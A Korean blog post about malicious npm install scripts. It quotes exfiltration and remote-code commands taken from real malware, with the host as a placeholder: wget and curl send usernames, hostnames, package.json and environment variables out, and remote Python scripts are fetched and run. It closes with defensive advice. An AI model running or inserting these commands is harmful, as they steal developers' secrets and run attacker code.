



다음은 샌드웜이 다룬 install script 보안 취약점 예시를 소개하겠습니다.

[Dissecting Npm Malware: Five Packages And Their Evil Install Scripts](https://blog.sandworm.dev/dissecting-npm-malware-five-packages-and-their-evil-install-scripts)

[(번역) Npm 멀웨어 해부: 다섯 가지 패키지와 악의적인 설치 스크립트](https://velog.io/@superlipbalm/dissecting-npm-malware-five-packages-and-their-evil-install-scripts)

Deno가 하는 짓거리 보고 Node 팀에서도 의식하기 시작했습니다. 20 버전부터는 실험적으로 지원을 시작했습니다. 하지만 실험적이기 때문에 본인이 알아서 하기 바랍니다.

```sh
wget --quiet "어떤origin/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)"
```

위 커맨드를 특정 서버에 보내도록 해서 유저의 정보를 탈추할 수 있습니다. 유저의 이름과 디렉토리 그리고 호스트를 알아내서 서버에게 데이터를 전달합니다.

```sh
nslookup $(whoami).어떤origin;nslookup $(uname --nodename).어떤origin;curl -X POST -d @package.json -H 'X-BOT: nope' 어떤origin/.x773/package.json ; env > /tmp/.env ; curl -X POST -d @/tmp/.env -H 'X-BOT: nope' 어떤origin/.x773/env.json
```

위 커맨드는 컴퓨터의 호스트네임, `package.json`, 환경 변수를 탈취합니다.



```sh
wget '어떤origin/p.py' -O ~/.vim.hint;python ~/.vim.hint
```

위는 파이썬 스크립트를 유저의 홈디렉토리에 설치합니다.

```sh
nohup python -c 'import urllib;exec urllib.urlopen("어떤origin/p.py").read()'
```

위는 클라이언트 기계에서 파이썬을 실행합니다. 설치 실행을 위한 기교가 대단합니다.

~~제가 이렇게 코드블럭을 남긴 이유는 나중에 제가 공격자가 될 때 사용하기 위함입니다.~~

방어 전략은 pre-install, post-install을 하는지 레포에서 파악하고 설치를 처리합니다. 그리고 설치를 할 때 무슨 명령을 하는지 라이브러리 코드를 독해하는 능력을 길러야 합니다.

sandworm-audit을 실행하면 된다고 하는데 사실 잘 모릅니다.







## 방어

방어 전략들이 필요합니다. 로컬 머신을 방어하려면 먼저 Docker를 설치해서 패키지 내에 멀웨어의 활동범위를 축소시켜야 합니다. docker는 다루다가 보니까 저의 블로그 글쓰기 주제를 벗어 났습니다. 컨테이너 인스턴스를 띄우는 방법은 생략하겠습니다.

npm audit을 통해서 실제 보안취약점 문제를 확인하도록 합니다.

```sh
npm audit
```
